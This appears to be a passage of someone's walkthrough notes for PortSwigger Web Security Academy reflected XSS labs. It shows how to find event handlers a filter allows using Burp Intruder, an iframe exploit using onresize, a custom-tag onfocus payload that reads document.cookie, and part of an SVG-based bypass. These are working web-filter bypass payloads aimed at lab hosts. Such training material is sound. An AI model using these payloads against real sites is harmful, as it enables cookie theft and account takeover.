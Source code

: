 ```
<body%20=1>
```
10. Place the cursor before the = character and click "Add §" twice, to create a payload position. The value of the search term should now look like: <body%20§§=1>
11. Visit the XSS cheat sheet and click "copy events to clipboard".
12. In Burp Intruder, in the Payloads tab, click "Clear" to remove the previous payloads. Then click "Paste" to paste the list of attributes into the payloads list. Click "Start attack".
13. When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the `onresize` payload, which caused a 200 response.
14. Go to the exploit server and paste the following code, replacing YOUR-LAB-ID with your lab ID:
```bash
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
(which is: `?search="><body onresize=print()>"`)
15. Click "Store" and "Deliver exploit to victim".


### Lab: Reflected XSS into HTML context with all tags blocked except custom ones
This lab blocks all HTML tags except custom ones.

Make victim visit your site and your site should contain:
```bash
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
(which is: `?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x`)

This injection creates a custom tag with the name `xss` (but the name can be anything like: `random-tag`) with the ID of `x`, which contains an `onfocus` event handler that triggers the alert function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called.
Note: we need a `tabindex=1` here because that's what allows this new custom html element (`xss`) to be focusable. 


### EXPERT Lab: Reflected XSS with event handlers and href attributes blocked
There's a search field that can be abused for xss. When we type `<h1>` we get a response that it's blocked. But `<a>` tag is not blocked. Only `href` on `<a>` is blocked.

We first figure out what is not blocked by firewall either with burp intruder or with `bf` golang script in this folder.
The brute force shows that `<animate>` tag is allowed. `<animate>` goes only with `<svg>` which means that `<svg>` is probably allowed as well.

`<svg>` allows us embedding other elements inside of it. If we want to include text inside of svg we have to use `<text>` element. We can also surround that text with an `<a>` tag, to make it clickable.
```
<svg><a><text>Click me</text></a>
```
x and y attributes on `<text`> specify the size of the `<text`> element.
```
<svg><a><text x=20 y=20>Click me</text></a>
```
The MDN tells: The SVG `<animate`> element provides a way to animate an attribute of an element over time.
Here's the example from the documentation:
```
<svg viewBox="0 0 10 10" xmlns="http://www.w3.org/2000/svg">
  <rect width="10" height="10">
    <animate
      attributeName="rx"
```